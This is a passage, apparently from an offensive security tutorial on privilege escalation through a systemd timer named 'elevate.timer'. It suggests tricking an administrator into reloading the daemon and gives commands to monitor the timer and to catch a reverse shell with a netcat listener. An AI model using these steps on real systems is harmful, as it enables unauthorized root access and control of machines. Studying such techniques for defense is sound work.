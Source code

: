 Afterwards, we'll need to reload the daemon to apply the changes, in the case of the adversary being a user privileged who doesn't have capabilities or permissions to reset the daemon, then we must wait or trick the administrator into reloading the daemon, alternatively, we may be able to reboot the system:

```shell
sudo systemctl daemon-reload
```

The timer can be monitored with the following command:

```shell
watch -n 1 sudo systemctl status elevate.timer
```

Then we may receive the reverse shell:

```shell
nc -lvnp 1234
```
